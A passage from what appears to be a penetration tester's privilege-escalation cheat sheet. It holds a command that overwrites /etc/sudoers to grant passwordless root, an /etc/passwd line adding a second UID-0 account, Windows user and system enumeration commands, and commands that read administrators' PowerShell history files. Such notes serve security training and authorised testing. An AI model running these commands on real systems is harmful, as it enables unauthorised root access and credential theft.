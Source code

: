```jsx
'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

```jsx
openssl passwd 123
root2:{HASH}:0:0:root:/root:/bin/bash
```

[Writable /etc/passwd → Root](https://www.notion.so/Writable-etc-passwd-Root-7b5d52c6cf954cc79a13813a525c68e8?pvs=21) 

## Windows

[Windows Local Privilege Escalation | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

### Users | Groups

```jsx
whoami
whoami /priv
whoami /groups
net user
Get-LocalUser
net user steve
Get-LocalUser steve
net group
Get-LocalGroup
Get-LocalGroupMember Administrators
net localgroup administrators
```

### System

```jsx
systeminfo
hostname
ipconfig
Get-ADdomain
netstat -a
tree \users\ /f /a
```

### PowerShell history

```jsx
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\Lance.Rubens\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

